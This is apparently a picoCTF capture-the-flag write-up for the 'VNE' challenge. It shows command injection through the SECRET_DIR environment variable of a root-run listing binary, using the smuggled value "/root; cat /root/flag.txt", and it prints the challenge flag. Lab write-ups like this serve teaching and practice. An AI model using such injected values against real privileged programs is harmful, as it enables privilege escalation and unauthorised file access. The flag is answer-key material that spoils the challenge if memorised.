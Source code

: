 # VNE

## Challenge

### Description

We've got a binary that can list directories as root, try it out !!

`ssh` to `saturn.picoctf.net:62361`, and run the binary named "bin" once connected. Login as `ctf-player` with the password.

### Hints

1. Have you checked the content of the /root folder
2. Find a way to add more instructions to the ls

## Solution

As the hints say, we execute the `bin` file and get this error.

```console
$ ./bin
Error: SECRET_DIR environment variable is not set
```

We set the environment variable with `export SECRET_DIR=/root` and run the file again.

```console
$ ./bin
Listing the content of /root as root: 
flag.txt
```

We found the flag file. Now if the command is not properly sanitize, we can inject code by modifying `SECRET_DIR` variable.

```console
$ export SECRET_DIR="/root; cat /root/flag.txt"
```

And run the `bin` file again. We should then get the flag.

## Flag

picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}
